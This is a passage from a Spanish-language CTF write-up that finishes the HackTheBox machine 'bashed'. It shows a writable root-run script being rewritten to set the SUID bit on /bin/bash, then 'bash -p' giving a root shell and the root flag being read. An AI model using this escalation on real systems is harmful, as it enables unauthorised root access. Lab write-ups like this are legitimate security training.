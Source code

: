 Muy bien, ahora que identificamos que el archivo `test.py` se está ejecutando y tenemos capacidad de escritura en el mismo, manipularemos el código para generar un permiso SUID en `/bin/bash`.

```bash
nano test.py

import os
os.system("chmod u+s /bin/bash")
```

Procedemos a monitorear el comando `ls -la /bin/bash` para detectar el momento en que tenga permisos como SUID.

```bash
watch -n 1 ls -la /bin/bash
-rwsr-xr-x 1 root root 1037528 Jun 24  2016 /bin/bash
```

¡Ya estamos terminando! Ahora vamos a ejecutar el comando `bash -p` que nos va a dar automáticamente una shell con permisos de `root`, esto gracias a la asignación de permisos _SUID_.

```bash
scriptmanager@bashed:/scripts$ bash -p
bash-4.3# whoami
root
```

¡Logramos tener acceso como root! No queda nada más, vamos a acceder a la carpeta que contiene la flag y eso es todo.

```bash
bash-4.3# find / -name root.txt 2>/dev/null
/root/root.txt
bash-4.3# head -c 10 /root/root.txt; echo
e2e427545
```

¡Hemos logrado completar la máquina `bashed` de HackTheBox!

<p align="center">
<img src="/assets/images/bashed/07-finish.png">
</p>

_¡Que tengan un buen día en el planeta donde se encuentren!_

**Nos vemos en otro bit.**.

